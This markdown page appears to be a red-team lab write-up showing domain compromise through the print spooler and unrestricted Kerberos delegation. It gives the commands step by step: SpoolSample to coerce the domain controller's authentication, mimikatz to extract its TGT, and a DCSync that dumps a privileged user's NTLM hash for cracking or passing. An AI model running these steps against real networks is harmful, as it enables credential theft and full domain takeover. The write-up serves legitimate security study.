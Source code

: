 # Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller (or any other host to be fair) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled.&#x20;
  * This is done via RPC API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md)

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled (attacker, server)
* dc01 - domain controller running a print service (victim, target)

We can check if a spool service is running on a remote host like so:

```
ls \\dc01\pipe\spoolss
```

![](<../../.gitbook/assets/image (503).png>)

If the spoolss was not running, we would receive an error.

Another way to check if the spoolss is running on a remote machine is:

![](<../../.gitbook/assets/image (504).png>)

Now, after compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin\_), we execute it with two arguments `target` and `server` (DC with spoolss running on it):

```csharp
.\SpoolSample.exe dc01 ws01
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-32-34.png>)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-33-49.png>)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-43-32.png>)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved -  get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}
